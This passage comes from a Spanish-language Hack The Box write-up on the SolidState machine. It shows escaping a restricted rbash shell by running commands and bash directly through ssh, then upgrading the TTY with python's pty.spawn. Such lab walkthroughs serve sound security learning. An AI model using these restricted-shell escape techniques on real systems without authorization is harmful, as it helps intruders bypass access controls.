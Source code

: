 Podríamos tratar de escapar de la `rbash` desde el comando `ssh`:

```bash
❯ ssh mindy@10.10.10.51 "whoami"
mindy@10.10.10.51's password: 
mindy
```

Vemos que a través de la herramienta `ssh` podemos ejecutar comandos que escapan de la `rbash`; asi que vamos a ejecutar una `bash`:

```bash
❯ ssh mindy@10.10.10.51 bash
mindy@10.10.10.51's password: 
whoami
mindy
```

Para trabajar mas cómodos, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) con python:
![""](/assets/images/htb-solidstate/banner-solidstate.jpg)

```bash
whereis python
python: /usr/bin/python /usr/bin/python2.7 /usr/bin/python3.5m /usr/bin/python3.5 /usr/lib/python2.7 /usr/lib/python3.5 /etc/python /etc/python2.7 /etc/python3.5 /usr/local/lib/python2.7 /usr/local/lib/python3.5 /usr/include/python2.7 /usr/include/python3.5m /usr/share/python /usr/share/man/man1/python.1.gz

python -c 'import pty; pty.spawn("/bin/bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$
```
